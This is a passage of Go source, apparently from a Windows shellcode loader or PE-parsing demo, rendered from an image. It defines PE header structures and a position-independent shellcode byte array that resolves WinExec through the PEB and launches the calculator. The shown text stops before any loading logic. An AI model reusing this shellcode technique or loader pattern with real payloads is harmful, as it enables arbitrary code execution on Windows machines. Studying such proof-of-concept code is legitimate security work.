 ```go
  Signature      uint32
  FileHeader     IMAGE_FILE_HEADER
  OptionalHeader IMAGE_OPTIONAL_HEADER
}

type IMAGE_FILE_HEADER struct {
  Machine              uint16
  NumberOfSections     uint16
  TimeDateStamp        uint32
  PointerToSymbolTable uint32
  NumberOfSymbols      uint32
  SizeOfOptionalHeader uint16
  Characteristics      uint16
}

type IMAGE_OPTIONAL_HEADER struct {
  Magic                       uint16
  MajorLinkerVersion          uint8
  MinorLinkerVersion          uint8
  SizeOfCode                  uint32
  SizeOfInitializedData       uint32
  SizeOfUninitializedData     uint32
  AddressOfEntryPoint         uint32
  BaseOfCode                  uint32
  ImageBase                   uint64
  SectionAlignment            uint32
  FileAlignment               uint32
  MajorOperatingSystemVersion uint16
  MinorOperatingSystemVersion uint16
  MajorImageVersion           uint16
  MinorImageVersion           uint16
  MajorSubsystemVersion       uint16
  MinorSubsystemVersion       uint16
  Win32VersionValue           uint32
  SizeOfImage                 uint32
  SizeOfHeaders               uint32
  CheckSum                    uint32
  Subsystem                   uint16
  DllCharacteristics          uint16
  SizeOfStackReserve          uint64
  SizeOfStackCommit           uint64
  SizeOfHeapReserve           uint64
  SizeOfHeapCommit            uint64
  LoaderFlags                 uint32
  NumberOfRvaAndSizes         uint32
  DataDirectory               [16]IMAGE_DATA_DIRECTORY
}

type IMAGE_DATA_DIRECTORY struct {
  VirtualAddress  uint32
  Size            uint32
}

var shellcode []byte = []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3}

func main(){
  // Load DLLs
```